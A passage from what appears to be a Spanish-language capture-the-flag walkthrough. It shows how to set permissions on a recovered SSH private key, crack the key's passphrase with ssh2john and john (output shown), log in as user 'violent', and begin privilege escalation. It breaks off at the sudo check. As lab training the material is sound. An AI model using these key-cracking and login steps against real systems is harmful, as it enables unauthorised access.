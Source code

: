 ```
-----END OPENSSH PRIVATE KEY-----
```

Teniendo dicho archivo en nuestro `host` vamos a establecerle los permisos necesarios.

```shell
chmod 600 id_rsa
```

Ahora vamos a probar a conectarnos por `SSH` mediante dicho usuario con la clave `PEM`.

```shell
ssh -i id_rsa violent@<IP>
```

Info:

```
Enter passphrase for key 'id_rsa':
```

Vemos que nos pide la contraseña de dicho `id_rsa` por lo que esta funcionando, vamos a intentar `crackearlo` con `john`.

```shell
ssh2john id_rsa > hash.ssh
```

```shell
john --wordlist=<WORDLIST> hash.ssh
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihateu           (id_rsa)     
1g 0:00:00:28 DONE (2025-05-16 14:50) 0.03559g/s 44.42p/s 44.42c/s 44.42C/s ramona..shirley
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Vemos que hemos obtenido la contraseña, por lo que vamos a utilizarla utilizando el mismo comando que antes.

```shell
ssh -i id_rsa violent@<IP>
```

Metemos como contraseña `ihateu` y veremos que estamos dentro.

## Escalate user theuser

Si hacemos `sudo -l` veremos lo siguiente:
